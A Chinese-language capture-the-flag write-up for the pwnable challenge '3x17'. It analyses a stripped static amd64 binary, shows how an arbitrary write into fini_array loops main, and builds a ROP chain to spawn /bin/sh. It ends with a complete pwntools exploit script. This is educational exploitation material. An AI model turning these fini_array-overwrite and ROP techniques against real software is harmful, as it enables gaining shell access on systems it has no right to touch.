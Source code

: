 ```yaml
---
title: 3x17
description: pwnable | elf文件格式 | ROP
---
```

<!--more-->

##题目考点
 - elf文件格式
 - ROP

--------

##解题思路

 先checksec，amd64，有nx(其实也有canary但没检测出来)，没开PIE，拖入ida进行分析，发现扣掉了符号表;
 readelf -h一下，找到程序入口点，标准的start函数:

```asm
; Attributes: noreturn fuzzy-sp

public start
start proc near
; __unwind {
xor     ebp, ebp
mov     r9, rdx
pop     rsi
mov     rdx, rsp
and     rsp, 0FFFFFFFFFFFFFFF0h
push    rax
push    rsp
mov     r8, offset sub_402960		;r8中存入libc_csu_fini()地址
mov     rcx, offset sub_4028D0		;rcx中存入libc_csu_init()地址
mov     rdi, offset sub_401B6D		;rdi中存入main()地址
db      67h
call    sub_401EB0					;call libc_start_main()函数
hlt
; } // starts at 401A50
start endp
```

 根据elf文件的标准格式，获得main()等主要函数地址，先对主函数进行分析:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf; // [rsp+10h] [rbp-20h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);				//canary
  result = (unsigned __int8)++byte_4B9330;	//可以char溢出(每过0x100次循环又重新归零)，对解题影响不大
  if ( byte_4B9330 == 1 )
  {
    sub_446EC0(1u, "addr:", 5uLL);
    sub_446E20(0, &buf, 0x18uLL);
    v4 = (char *)(int)sub_40EE70(&buf);
    sub_446EC0(1u, "data:", 5uLL);
    sub_446E20(0, v4, 0x18uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    sub_44A3E0();
  return result;
}
```

 在主函数的逻辑中，可以看到程序先读取了一个地址(int型)，然后将其作为字符型指针，可以在该地址上写入0x18的数据;

 因此，可以通过反复调用main函数在合适的地方构造ROP链，实现无限次的任意地址写入从而getshell;

 根据对elf程序结构的了解，可以知道程序执行完main函数后，会执行_libc_csu_fini函数:

```asm
_libc_csu_fini  proc near
; __unwind {
                push    rbp 					;func prologue
                lea     rax, unk_4B4100			;rax = 0x4B4100
                lea     rbp, off_4B40F0			;rbp = 0x4B40F0
                push    rbx
                sub     rax, rbp 				;即函数数组长度
                sub     rsp, 8
                sar     rax, 3					;0x10 -> 0x02(16 bytes -> 2 个64位地址)
                jz      short loc_402996
                lea     rbx, [rax-1]
                nop     dword ptr [rax+00000000h]
loc_402988:
                call    qword ptr [rbp+rbx*8+0]	;先执行(*(rbp + 8))(), 再执行(*rbp)()
                sub     rbx, 1
                cmp     rbx, 0FFFFFFFFFFFFFFFFh
                jnz     short loc_402988
loc_402996:                             
                add     rsp, 8
                pop     rbx
                pop     rbp
                jmp     _term_proc
; } // starts at 402960
_libc_csu_fini  endp
```

 根据上述分析，发现可以通过修改0x4B40F0处 fini_array[2] 中元素的值，达到无限次循环调用_libc_csu_fini与main函数的目的，进而构造rop链getshell:

```py
#构造fini_array，使得程序可以无限次进入main函数
main_addr = 0x401B6D
fini_addr = 0x402960
fini_array= 0x4B40F0
p.recvuntil(b'addr:')
p.send(str(fini_array).encode())
p.recvuntil(b'data:')
p.send(p64(fini_addr) + p64(main_addr))
```

```py
#构造ROP链
prdi = 0x401696
pdxsi= 0x44a309
prax = 0x41e4af
sysc = 0x4022b4
bufad= 0x4B9300		#到.bss段随便找个位置放"/bin/sh\x00"
bufda= b'/bin/sh\x00'
p.recvuntil(b'addr:')
p.send(str(fini_array + 0x10).encode())
p.recvuntil(b'data:')
p.send(p64(pdxsi))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x18).encode())
p.recvuntil(b'data:')
p.send(p64(0) + p64(0))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x28).encode())
p.recvuntil(b'data:')
p.send(p64(prdi) + p64(bufad))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x38).encode())
p.recvuntil(b'data:')
p.send(p64(prax) + p64(0x3b))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x48).encode())
p.recvuntil(b'data:')
p.send(p64(sysc))

p.recvuntil(b'addr:')
p.send(str(bufad).encode())
p.recvuntil(b'data:')
p.send(bufda)
```

 至于rop链构造的位置，通过分析_libc_csu_fini函数以及fini_array地址附近可以发现，_fini_array附近有一片连续的可利用的地址空间且rbp值被设置为0x4B40F0，至于rsp的值可以通过leave;ret;语句来进行调整:
 最初rbp指向0f0 - 0x8(libccsufini函数中有push rbx操作)，不能直接leave;ret;
 这里有两种选择: 仍然使finiarray[1] 为main函数地址，而后leaveret，或者先ret再leaveret;
 (leave == mov rsp, rbp; pop rbp)
 (ret 	== pop rip)

```py
#调整rbp，rsp，getshell
leaveret = 0x401c4b
p.recvuntil(b'addr:')
p.send(str(fini_array).encode())
p.recvuntil(b'data:')
p.send(p64(leaveret))
```

##exploit
 直接组合起来即可getshell
```py
from pwn import *

p = process("./3x17")

#构造fini_array，使得程序可以无限次进入main函数
main_addr = 0x401B6D
fini_addr = 0x402960
fini_array= 0x4B40F0
p.recvuntil(b'addr:')
p.send(str(fini_array).encode())
p.recvuntil(b'data:')
p.send(p64(fini_addr) + p64(main_addr))

#构造ROP链
prdi = 0x401696
pdxsi= 0x44a309
prax = 0x41e4af
sysc = 0x4022b4
bufad= 0x4B9300		#到.bss段随便找个位置放"/bin/sh\x00"
bufda= b'/bin/sh\x00'
p.recvuntil(b'addr:')
p.send(str(fini_array + 0x10).encode())
p.recvuntil(b'data:')
p.send(p64(pdxsi))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x18).encode())
p.recvuntil(b'data:')
p.send(p64(0) + p64(0))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x28).encode())
p.recvuntil(b'data:')
p.send(p64(prdi) + p64(bufad))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x38).encode())
p.recvuntil(b'data:')
p.send(p64(prax) + p64(0x3b))

p.recvuntil(b'addr:')
p.send(str(fini_array + 0x48).encode())
p.recvuntil(b'data:')
p.send(p64(sysc))

p.recvuntil(b'addr:')
p.send(str(bufad).encode())
p.recvuntil(b'data:')
p.send(bufda)
#调整rbp，rsp，getshell
leaveret = 0x401c4b
p.recvuntil(b'addr:')
p.send(str(fini_array).encode())
p.recvuntil(b'data:')
p.send(p64(leaveret))

p.interactive()
```